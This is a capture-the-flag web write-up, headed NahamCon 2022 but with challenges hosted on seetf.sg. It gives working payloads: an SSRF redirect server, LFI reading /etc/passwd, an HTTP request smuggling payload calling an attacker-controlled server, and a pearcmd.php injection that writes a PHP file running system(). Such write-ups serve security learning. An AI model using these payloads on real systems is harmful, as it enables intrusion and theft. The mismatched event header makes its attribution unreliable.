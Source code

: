 # NahamCon CTF 2022 - Web
------------------------

## Super Secure Requests Forwarder
#### about :
- Type: web 
- Level: easy
- Points : 100

<center><img src="../images/ssrf_chall.png"></center>

we look at the source code , the main app is like :
```python
@app.route('/', methods=['GET', 'POST'])
def index():

    if request.method == 'POST':
        url = request.form['url']

        # Prevent SSRF
        try:
            advocate.get(url)

        except:
            return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

        r = requests.get(url)
        return render_template('index.html', result=r.text)

    return render_template('index.html')
```
what catched my eye is the problem of only checking one time , with **advocat** , the normal behavior is to use the get request result , not sending another unsafe request , so i created a server , when the second request is launched we forward to /flag : 

```php
<?php $var = $_SERVER['HTTP_X_FORWARDED_FOR'] ?>
<?php echo "IP : " . $var . "\n" ?>
<?php echo "subnet : " . substr($var ,0 , 2) . "\n" ?>
<?php
$file = '/tmp/file1.txt';
$current = file_get_contents($file);
if (substr($var ,0 , 2) === '34') {
        echo "Found you \n";
        $current .= "hello";
        system('echo hello >> /tmp/tmp.txt');
        file_put_contents($file, $current);

echo "current : " . $current .  "\n" ;
if ($current === "hellohello") {
        echo "You are the real \n";
        echo "Done";
        header("Location: http://127.0.0.1/flag", true, 301);
}
}
?>
```

## Sourceless Guessy Web (Baby Flag)
#### about :
- Type: web 
- Level: easy
- Points : 100

<center><img src="../images/sgw.png"></center>

First thing I noticed is the url redirceted me to : 
**http://sourcelessguessyweb.chall.seetf.sg:1337/?page=whysoserious** , then my first check was LFI (as mentioned in **for beginners** section), i tried to get /etc/passwd , we found the flag : 

<center><img src="../images/sgw_sol.png"></center>

## Flag Portal (Flag 1)
#### about :
- Type: Web 
- Level: meduim
- Points : 100

<center><img src="../images/fgp1.png"></center>

when  i looked at the source code i found in the Gem installation file : 

```yaml
GEM
  remote: https://rubygems.org/
  specs:
    nio4r (2.5.5)
    puma (5.6.2)
      nio4r (~> 2.0)
    rack (2.2.3)
```

This version has a relatively new CVE [here](https://security.snyk.io/vuln/SNYK-RUBY-PUMA-2437090), it is an HTTP request smuggling of type **TE-TE**, the frontend server _puma_ doesn't render xchuncked, but _ATS_ renders it, the final payload is : 

```http
GET /home HTTP/1.1
Host: revenge
Content-Length: 4
Transfer-Encoding: xchuncked

0
GET /admin?backend=https://your_server HTTP/1.1
Content-Length: 15

x=1
0
[blank]
[blank]
```

## Sourceless Guessy Web (RCE Flag)
#### about :
- Type: Web 
- Level: meduim
- Points : 481

<center><img src="../images/sgw_rce.png"></center>

The wbesite rediect me to **phpinfo.php#:~:text=register_argc_argv** , this shows that we an use this [Technique](https://blog.csdn.net/rfrder/article/details/121042290) to write into a file : 

The payload is then : 

`page=../../../../usr/local/lib/php/pearcmd.php& config-create /tmp/<?=system('/readflag')?>/* /tmp/cmd.php `

And then we can reach to the created file using the simple LFI `page=../../../../tmp/cmd.php`

